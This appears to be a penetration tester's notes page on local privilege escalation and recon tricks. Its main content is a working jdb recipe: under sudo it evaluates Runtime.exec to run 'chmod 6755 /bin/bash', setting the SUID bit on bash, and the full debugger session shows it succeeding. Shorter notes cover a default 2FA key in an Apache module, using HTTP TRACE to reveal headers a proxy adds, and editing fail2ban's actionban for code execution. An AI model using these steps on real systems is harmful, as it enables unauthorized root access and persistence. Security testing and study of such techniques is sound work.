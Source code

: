 # java jdb execute commands
```
stop on Main.main
run
eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
cont
```
```
user@hostname:~$ sudo /usr/bin/jdb -classpath /root/ Main
Initializing jdb ...
> stop on Main.main
Deferring breakpoint Main.main.
It will be set after the class is loaded.
> run
run Main
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
>
VM Started: Set deferred breakpoint Main.main

Breakpoint hit: "thread=main", Main.main(), line=5 bci=0
5               System.out.println("Hello World!");

main[1] eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
 java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash"); = "Process[pid=3332, exitValue="not exited"]"
main[1] cont
> Hello World!

The application exited
```

# apache 2fa default key
https://github.com/itemir/apache_2fa
has default google authenticator key in setup instructions

# Potentially risky HTTP methods: TRACE
if the request is going through a http load balancing proxy,
then we can use TRACE to echo back any extra headers it appends

# fail2ban
- ssh is protected by default

## default config location
- /etc/fail2ban/action.d
- iptables-multiport.conf has default ban commands
  - edit `actionban` for rce
